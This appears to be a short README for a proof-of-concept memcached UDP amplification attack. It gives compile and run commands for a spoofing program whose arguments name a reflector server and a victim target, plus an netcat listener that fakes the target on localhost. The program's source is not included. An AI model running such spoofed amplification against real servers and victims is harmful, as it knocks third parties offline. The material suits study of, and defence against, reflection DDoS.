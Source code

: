 # memcached_amplification
Proof of concept for memcached amplification attack over UDP

# Compile
gcc spoof_memcached_udp_request.c -o spoof_memcached_udp_request

# Run
./spoof_memcached_udp_request <memcached_server_ip> <memcached_server_port> <target_ip> <target_port>

`./spoof_memcached_udp_request 127.0.0.1 11211 127.0.0.1 8888`

# Faking a target server
`sudo nc -ul -p 8888`
